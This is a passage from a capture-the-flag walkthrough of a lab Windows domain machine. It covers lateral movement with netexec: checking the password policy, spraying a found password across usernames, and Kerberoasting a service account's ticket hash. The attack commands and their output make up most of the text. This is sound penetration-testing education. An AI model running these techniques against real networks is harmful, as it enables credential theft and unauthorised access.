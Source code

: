 ### Lateral movement
---

#### Password spraying
Before password spraying, we will check the password policy.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ netexec smb 10.10.11.129 -u hope.sharp -p 'IsolationIsKey?' --pass-pol                                                         
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey? 
SMB         10.10.11.129    445    RESEARCH         [+] Dumping password info for domain: SEARCH
SMB         10.10.11.129    445    RESEARCH         Minimum password length: 7
SMB         10.10.11.129    445    RESEARCH         Password history length: 24
SMB         10.10.11.129    445    RESEARCH         Maximum password age: Not Set
SMB         10.10.11.129    445    RESEARCH         
SMB         10.10.11.129    445    RESEARCH         Password Complexity Flags: 000000
SMB         10.10.11.129    445    RESEARCH             Domain Refuse Password Change: 0
SMB         10.10.11.129    445    RESEARCH             Domain Password Store Cleartext: 0
SMB         10.10.11.129    445    RESEARCH             Domain Password Lockout Admins: 0
SMB         10.10.11.129    445    RESEARCH             Domain Password No Clear Change: 0
SMB         10.10.11.129    445    RESEARCH             Domain Password No Anon Change: 0
SMB         10.10.11.129    445    RESEARCH             Domain Password Complex: 0
SMB         10.10.11.129    445    RESEARCH         
SMB         10.10.11.129    445    RESEARCH         Minimum password age: 1 day 4 minutes 
SMB         10.10.11.129    445    RESEARCH         Reset Account Lockout Counter: 30 minutes 
SMB         10.10.11.129    445    RESEARCH         Locked Account Duration: 30 minutes 
SMB         10.10.11.129    445    RESEARCH         Account Lockout Threshold: None
SMB         10.10.11.129    445    RESEARCH         Forced Log off Time: Not Set
{% endhighlight %}
<mark>Account Lockout Threshold</mark> is set to <mark>None</mark>, meaning we will not cause lockout on accounts.

Checking for password reuse.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ netexec smb 10.10.11.129 -u usernames_list_final.txt -p 'IsolationIsKey?' --continue-on-success | grep '[+]'
SMB                      10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
{% endhighlight %}
Unfortunately, we just get a hit on our initial account.

#### Kerberoasting

We execute the Kerberoasting attack using <mark>netexec</mark> and save the TGS ticket to the <mark>kerberos_hash.txt</mark> file.
{% highlight shell %}
┌──(iwo㉿kali)-[~/boxes/search]
└─$ netexec ldap 10.10.11.129 -u hope.sharp -p 'IsolationIsKey?' --kerberoasting hashes/kerberos_hash.txt     
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.129    389    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey? 
LDAP        10.10.11.129    389    RESEARCH         Bypassing disabled account krbtgt 
LDAP        10.10.11.129    389    RESEARCH         [*] Total of records returned 1
LDAP        10.10.11.129    389    RESEARCH         sAMAccountName: web_svc memberOf:  pwdLastSet: 2020-04-09 14:59:11.329031 lastLogon:<never>
LDAP        10.10.11.129    389    RESEARCH         $krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$b2ba75d52692de9f7403943be11e5<SNIP>
{% endhighlight %}
